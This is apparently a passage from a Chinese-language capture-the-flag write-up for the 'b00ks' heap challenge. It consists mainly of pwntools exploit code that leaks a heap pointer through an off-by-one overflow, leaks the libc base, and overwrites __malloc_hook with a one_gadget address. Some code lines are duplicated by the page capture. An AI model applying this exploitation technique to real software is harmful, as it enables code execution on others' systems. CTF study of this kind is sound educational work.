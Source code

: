 ```python
 31 def show():
 32     p.sendline("4")
 33 
 34 def nameedit():
 35     p.sendline("5")
 36     p.recvuntil("name: ")
 37     p.sendline("1"*32)
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 37     p.sendline("1"*32)
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 44 p.sendlineafter("name: ","a"*32)
 45 pause()#1
 46 create(48,"HHHHHHH",200,(""))  #1
 47 pause()#2
 48 show()
 49 
 50 p.recvuntil("a"*32)
 51 book1=u64(p.recv(6)+'\x00'*2)
 52 log.success("book1 -> {:#x}".format(book1))
 53 p.recvuntil(">")
 54 edit("1","1"*0xa0+p64(1)+p64(book1+0x60)+p64(book1+0x60)+p64(0xc8))
 55 nameedit()
 56 pause()
 57 #gdb.attach(p,"b 0x555555554000+0x1234")
 58 ############1#############
 59 create(16,"AAAAAA",0x21000,"BBBBB")
 60 #############2###########
 61 pause()
 62 show()
 63 libc.address=u64(p.recvuntil("\x7f")[-6: ] + '\0\0')-0x5be010
 64 success("libc -> {:#x}".format(libc.address))
```

当我们获取基址后，我们的思路就是，edit book1，把我们的book2的discription的地址改了，改成__malloc_hook，然后edit book2把他们改成one_gadget的地址,这里不再做出具体的内容，可以自己尝试。

```python
 68 one_gadget=0xf02a4
 69 success("__malloc_hook -> {:#x}".format(libc.sym['__malloc_hook']))
 70 edit("1",p64(libc.sym['__malloc_hook']))
 71 pause()
 72 edit("2",p64(libc.address+one_gadget))
 73 pause()
 
```
